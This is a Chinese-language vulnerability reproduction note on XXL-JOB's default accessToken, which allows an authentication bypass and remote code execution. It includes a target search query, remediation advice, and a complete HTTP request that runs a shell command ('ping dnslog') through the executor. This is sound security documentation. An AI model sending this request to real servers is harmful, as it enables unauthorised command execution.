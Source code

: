 ```yaml
---
layout: post
title: XXL-JOB默认accessToken身份绕过导致RCE
abbrlink: f995099ab7d24a37b68d22dc97743157
tags: []
categories:
  - 漏洞挖掘与复现
  - web应用
  - xxl-job
date: 1735134986100
updated: 1735265142483
---
```


```python
app="xxl-job"


XXL-JOB 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。

漏洞说明：
XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。

修复方案：
修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值：
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89


XXL-JOB-ACCESS-TOKEN: default_token

https://github.com/xuxueli/xxl-job/blob/72963e4716a74eacdcbdd2e999c433debf3afaa3/doc/XXL-JOB%E5%AE%98%E6%96%B9%E6%96%87%E6%A1%A3.md?plain=1#L1606
https://github.com/xuxueli/xxl-job/blob/72963e4716a74eacdcbdd2e999c433debf3afaa3/xxl-job-core/src/main/java/com/xxl/job/core/util/XxlJobRemotingUtil.java#L22
```

```python
POST /run HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 365

{
    "jobId": 1,
    "executorHandler": "demoJobHandler",
    "executorParams": "demoJobHandler",
    "executorBlockStrategy": "COVER_EARLY",
    "executorTimeout": 0,
    "logId": 1,
    "logDateTime": 1586629003729,
    "glueType": "GLUE_SHELL",
    "glueSource": "ping dnslog",
    "glueUpdatetime": 1586699003758,
    "broadcastIndex": 0,
    "broadcastTotal": 0
}

```

![1698927184365-e5a406ac-5c3e-4229-9396-026a831c21dc.png](/resources/ae08a112e1f047a69c086fc7eb25474d.png)

![1698927173145-6a454957-f83d-4447-9ca2-50bcd6d59c87.png](/resources/bca8874e1efe4f7eb21c57b138428dd8.png)

![1698927499604-86b4b44d-0e36-41be-8f11-9750c45c41e3.png](/resources/0befa13a3aec43a493ddf8f30ee7d0da.png)

> 更新: 2023-11-02 20:18:23\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/fuxzdkyorzbmsmyl>

